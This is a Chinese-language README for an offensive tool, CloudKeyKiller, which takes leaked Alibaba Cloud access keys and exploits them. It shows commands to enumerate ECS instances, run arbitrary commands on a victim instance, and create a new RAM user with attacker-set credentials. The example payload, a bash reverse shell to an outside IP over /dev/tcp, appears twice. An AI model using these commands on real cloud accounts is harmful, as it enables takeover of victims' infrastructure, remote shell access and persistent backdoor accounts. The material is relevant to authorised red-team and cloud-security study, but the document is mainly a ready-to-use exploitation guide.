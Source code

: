 # CloudKeyKiller

# 前言

先说一下这个工具解决了什么，经常能遇到很多AK泄露，在前端JS中，APP中，小程序源码中碰到，有时候单独拿到AK去尝试权限是比较麻烦的，我也想是否有必要写一款这种工具，答案是：可以的

不过写的中间其实不难发现，这就是一个体力活，如果可以，其实完全可以把API都调一遍，是吧，就知道这个AK的权限有多大了

不过我还是想，能否通过API来判断该AK的权限有多少，通过这些有的权限进行利用

再一个难点其实就是环境差别太大了，首先不知道拿到AK的时候我们是黑盒的情况下，不知道权限有多大，再一个就是，这种类型的工具，它的兼容性和适配性必须要好，因为不同的KEY会有不同的结果，所以我希望使用这款工具中遇到的问题，尽管提issue，因为这能帮助这款工具更快的迭代和发现问题

况且这工具开发时间很短，除了熟悉API的时间，写代码的时间可能也就1个小时

## 初始配置

将自己的对应云厂商AK写入/config/conf.py中即可

![image-20220414185136736](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185136736.png)

## ECS

### 获取所有ECS

```bash
python3 -aliyun ecs getecs
```

![image-20220414185023728](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414185023728.png)

### 在指定ECS中执行命令

```bash
python3 main.py -aliyun ecs exec instanceid command RegionId
```

- instanceid

  - ECS中的InstanceID

- command

  - 你要执行的命令

    ```bash
    bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'
    ```

- RegionID

  - 地区ID

```bash
python3 main.py -aliyun ecs exec i-2556rj "bash -c 'exec bash -i &>/dev/tcp/ip/port <&1'" cn-beijing
```

![image-20220414190034115](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414190034115.png)

## RAM

### 创建RAM用户

```bash
python3 main.py -aliyun ram createram 账号 密码
```

![image-20220414215019769](https://uzjumakdown-1256190082.cos.ap-guangzhou.myqcloud.com/UzJuMarkDownImageimage-20220414215019769.png)

# 推荐一个云安全wiki

- https://github.com/teamssix/twiki